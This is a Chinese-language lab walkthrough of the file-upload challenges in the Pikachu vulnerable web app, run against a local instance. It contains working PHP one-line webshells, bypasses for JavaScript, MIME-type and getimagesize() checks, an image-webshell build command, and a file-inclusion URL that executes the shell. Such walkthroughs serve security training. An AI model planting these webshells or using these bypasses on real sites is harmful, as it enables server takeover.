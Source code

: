 # Pikachu靶场通关之文件上传    

## 1、文件上传漏洞概述

![image-20210103150856510](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103150856510.png)

```
不安全的文件上传漏洞概述
文件上传功能在web应用系统很常见，比如很多网站注册的时候需要上传头像、上传附件等等。当用户点击上传按钮后，后台会对上传的文件进行判断 比如是否是指定的类型、后缀名、大小等等，然后将其按照设计的格式进行重命名后存储在指定的目录。 如果说后台对上传的文件没有进行任何的安全判断或者判断条件不够严谨，则攻击着可能会上传一些恶意的文件，比如一句话木马，从而导致后台服务器被webshell。
所以，在设计文件上传功能时，一定要对传进来的文件进行严格的安全考虑。比如：
--验证文件类型、后缀名、大小;
--验证文件的上传方式;
--对文件进行一定复杂的重命名;
--不要暴露文件上传后的路径;
--等等...
你可以通过“Unsafe file upload”对应的测试栏目，来进一步的了解该漏洞。
```

## 2、文件上传漏洞测试流程

![image-20210103150937539](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103150937539.png)

## 3、文件上传漏洞之客户端验证

下面我们来进行实战演练-客户端js验证~

![image-20210103141802325](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103141802325.png)

一句话木马的编写：

```php
<?php eval(@$_POST['bjx']); ?>
```

我们先准备一个shell.php把一句话写入进去。在准备一个这样的文件将后缀名修改为jpg

![image-20210103153149996](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103153149996.png)

接下来，我们回到靶场，先上传php文件看一看。

![image-20210103153345441](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103153345441.png)

这里提示我们上传的文件不符合要求，那么我们来看一下网页源代码，看一下是前端做了限制还是后端的问题。

果然是前端做的限制。这里就是通过js做的限制。

![image-20210103153442287](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103153442287.png)

**1.第一种方法：**

我们看到这里有一个判断，当状态改变就会调用js。

![image-20210103155627907](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103155627907.png)

我们可以直接把判断删除~

![image-20210103155805170](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103155805170.png)

接下来上传php文件。

![image-20210103161056630](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103161056630.png)

上传成功！连接测试成功！

![image-20210103161726645](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103161726645.png)

当然也可以编写这个一句话：

```
<?php system($_GET['x']); ?>
```

这样上传成功后，就可以访问URL并且执行命令~

```
http://127.0.0.1/pikachu/vul/unsafeupload/uploads/shell.php?x=ifconfig
```

![image-20210103162048716](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103162048716.png)

其他方法就不做具体介绍了~还有两种哦~

## 4、文件上传漏洞之MIME类型验证

![image-20210103162257711](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103162257711.png)

PHP中的`$_FILES()`函数是用来处理客户端向服务器端上传文件的。它包含

```
$_FILES['file']['name']  #文件名
$_FILES['file']['type']  # 文件类型
$_FILES['file']['size']  # 文件大小，单位为字节
$_FILES['file']['tmp_name'] # 存储在服务器的文件临时副本的名称
$_FILES['file']['error'] # 文件上传的错误代码
```

![image-20210103163658460](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103163658460.png)

其中`$_FILES['file']['type']`就是从我们前面说的地方取值，而http请求content-type用户可控，所以可以绕过。

抓包上传请求，修改content-type字段文件类型为允许的类型即可。

下面我们就去靶场里面进行实战演练。我们随便上传一个shell.php尝试一下。

![image-20210103164010208](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103164010208.png)

好吧，不能上传~按照正常的思路，我们先看一下源代码吧~

![image-20210103164510459](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103164510459.png)

![image-20210103164532041](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103164532041.png)

这里是通过全局的函数来获取文件的类型。

下面我们来进行上传绕过~打开shell.php然后用burp抓包，修改为Content-Type：image/png;

![image-20210103170117295](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103170117295.png)

提交之后，我们可以看到上传成功。

![image-20210103165952655](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103165952655.png)

## 5、文件上传漏洞之getimagesize()类型验证

getimagesize()这个函数是php提供用来判断目标是不是一个图片的函数。

这是PHP判断图片文件大小和文件类型的函数，它以16进制读取文件，从16进制的前几位判断文件类型，如文件开头是8950 4e47是png格式的开头。这个开头也就是我们一般所说的文件幻数。绕过get_imagesize()函数可以通过制作图片马绕过（windows下可以通过命令形如`copy /b pic.png + shell.php picshell.png`来制作图片马）。也可以在木马文件头部直接加上头部如GIF98A。

这个时候就有一个问题，如果上传的文件是图片，那插入的恶意代码怎么执行呢？直接访问后缀为png格式的文件返回就是图片。这个时候可以结合文件包含的组合拳来解析恶意代码。上传图片马拿到上传位置后，结合前面说到的文件包含漏洞即可验证此部分漏洞。

![image-20210103174218370](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103174218370.png)

在linux中我们可以使用xxd命令查看文件的16进制

![image-20210103175857029](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175857029.png)

8950 4e47是png格式的开头

图片木马的制作：

![image-20210103181026498](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103181026498.png)

下面我们来制作图片木马：准备一个背景图片pic.jpg一个一句话木马shell.php合成图片马picshell.jpg

![image-20210103174934283](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103174934283.png)

下面我们来到靶场，选择制作好的图片马，上传

![image-20210103175136185](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175136185.png)

下面我们打开文件路径看一看

![image-20210103175234151](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175234151.png)

由于是以图片格式打开的，所以无法直接利用，可以通过文件包含，getshell
观察图片木马成功上传的路径和本地文件包含的路径，可以得出包含图片木马的路径，进而getshell

```
http://127.0.0.1/pikachu/vul/fileinclude/fi_local.php?filename=../../unsafeupload/uploads/2021/01/03/7809165ff19385ef35e274751323.jpg&submit=提交查询
```

![image-20210103175522223](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175522223.png)

下面我们用蚁剑连接。

![image-20210103175652446](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175652446.png)

![image-20210103175632313](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103175632313.png)

## 6、文件上传漏洞-防范措施

![image-20210103181511679](https://gitee.com/Harveysn0w/win-note_img/raw/master/image-20210103181511679.png)
















